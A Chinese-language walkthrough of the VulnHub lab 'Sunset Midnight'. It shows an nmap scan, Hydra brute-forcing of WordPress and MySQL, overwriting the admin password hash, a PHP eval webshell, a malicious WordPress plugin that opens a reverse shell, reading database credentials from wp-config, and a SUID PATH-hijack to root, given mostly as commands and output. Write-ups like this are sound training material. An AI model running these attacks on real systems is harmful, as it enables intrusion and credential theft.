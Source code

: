 # SUNSET MIDNIGHT

> https://download.vulnhub.com/sunset/midnight.7z

靶场IP：`192.168.2.4 `

扫描对外端口

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 07:13 EDT
Nmap scan report for 192.168.2.4
Host is up (0.000080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
MAC Address: 08:00:27:05:08:38 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.24 seconds

```

浏览器访问80端口，发现配置本地hosts

![image-20220904191517941](../../.gitbook/assets/image-20220904191517941.png)

```
┌──(root㉿kali)-[~/Desktop]
└─# cat /etc/hosts
192.168.2.4 sunset-midnight
```

![image-20220904191627991](../../.gitbook/assets/image-20220904191627991.png)

对wordpress进行暴力破解，发现无法爆破。

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt sunset-midnight -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
```

于是爆破MySQL端口，找到账号密码：`root/robert`

```
┌──(root㉿kali)-[/tmp]
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt sunset-midnight mysql
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 08:43:20
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://sunset-midnight:3306/
[3306][mysql] host: sunset-midnight   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 08:43:21

```

![image-20220904204449398](../../.gitbook/assets/image-20220904204449398.png)

查询wordpress的后台登录密码

![image-20220904204533158](../../.gitbook/assets/image-20220904204533158.png)

不过无法破解到密码，于是直接更改密码的哈希的密码为`password`。

```
MariaDB [wordpress_db]> update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.003 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

登录wordpress后台

![image-20220904204812696](../../.gitbook/assets/image-20220904204812696.png)

在插件添加一句话木马

```
<?php @eval($_GET["cmd"]); ?>
```

![image-20220904204946646](../../.gitbook/assets/image-20220904204946646.png)

但是无法保存成功。

![image-20220904205104164](../../.gitbook/assets/image-20220904205104164.png)

使用WordPress 木马插件

> https://github.com/wetw0rk/malicious-wordpress-plugin.git

```
┌──(root㉿kali)-[/opt/malicious-wordpress-plugin]
└─# python wordpwn.py 192.168.2.5 8888 Y
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating payload To file

```

![QQ录屏20220904205517](../../.gitbook/assets/QQ%E5%BD%95%E5%B1%8F20220904205517.gif)

访问：`http://sunset-midnight/wp-content/plugins/malicious/wetw0rk_maybe.php`，即可连接反弹shell

> 或者`/wp-content/plugins/malicious/QwertyRocks.php`

![image-20220904205914558](../../.gitbook/assets/image-20220904205914558.png)

查看`wp-config.php`

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'jose' );

/** MySQL database password */
define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到`jose`用户

![image-20220904210456110](../../.gitbook/assets/image-20220904210456110.png)

查找suid

```
jose@midnight:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/su
/usr/bin/sudo
/usr/bin/status
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```

提权

```
jose@midnight:~$ /usr/bin/status
/usr/bin/status
sh: 1: service: not found
jose@midnight:~$ cd /tmp
cd /tmp
jose@midnight:/tmp$ nano service
nano service
Error opening terminal: unknown.
jose@midnight:/tmp$ 

jose@midnight:/tmp$ echo '/bin/sh' >> service
echo '/bin/sh' >> service
jose@midnight:/tmp$ export PATH=$PATH:/tmp
export PATH=$PATH:/tmp
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
sh: 1: service: Permission denied
Status of the SSH server:jose@midnight:/tmp$ 

jose@midnight:/tmp$ chmod +x service
chmod +x service
jose@midnight:/tmp$ /usr/bin/status
/usr/bin/status
# id
id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)

```

查看flag

![image-20220904211003780](../../.gitbook/assets/image-20220904211003780.png)
